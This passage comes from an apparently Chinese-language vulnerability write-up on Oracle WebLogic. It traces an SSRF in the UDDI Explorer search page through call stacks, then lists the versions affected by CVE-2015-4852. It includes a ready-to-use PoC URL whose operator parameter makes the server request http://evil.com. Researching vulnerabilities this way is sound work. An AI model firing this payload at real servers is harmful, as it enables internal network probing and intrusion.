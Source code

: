 ```java
    return var2;
}
```

当 var1 的值是 name 时，则会调用 m_inquiry 属性的 findBusiness 方法，var1 我们可
以通过传入 rdoSearch 来控制，var2 我们也需要通过 txtSearchname 参数来设置一个值

跟进 findBusiness 方法：

{{< figure src="/ox-hugo/2021-11-09_16-35-39_screenshot.png" >}}

此时 sendMessage 的参数已经被污染了，在这个方法中会使用 BindingFactory#create 方
法构建一个 Binding 实例用来发送请求，而 create 方法的参数受到 sendMessage 的参数
影响。关键代码如下：

{{< figure src="/ox-hugo/2021-11-09_16-40-15_screenshot.png" >}}

构建 Binding 实例的过程：

```nil
setBindingInfo:63, AbstractBinding (weblogic.webservice.binding)
init:118, Http11ClientBinding (weblogic.webservice.binding.http11)
create:50, BindingFactory (weblogic.webservice.binding)
sendMessage:78, UDDISoapMessage (weblogic.uddi.client.service)
findBusiness:101, Inquiry (weblogic.uddi.client.service)
findBusinessListByName:325, Search (com.bea.uddiexplorer)
getResponse:172, Search (com.bea.uddiexplorer)
...
```

这时 Binding 的 url 属性已经被我们控制，继续执行 UDDISoapMessage#sendMessage 触发
ssrf 请求：

```nil
openConnection:33, Handler (weblogic.net.http)
openConnection:971, URL (java.net)
send:384, Http11ClientBinding (weblogic.webservice.binding.http11)
sendMessage:80, UDDISoapMessage (weblogic.uddi.client.service)
...
```

{{< figure src="/ox-hugo/2021-11-09_16-45-36_screenshot.png" >}}

poc：

```text
http://localhost:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&btnSubmit=Search&operator=http://evil.com
```


## CVE-2015-4852 {#cve-2015-4852}


### 影响范围 {#影响范围}

Oracle WebLogic Server 10.3.6.0
Oracle WebLogic Server 12.1.2.0
Oracle WebLogic Server 12.1.3.0
Oracle WebLogic Server 12.2.1.0
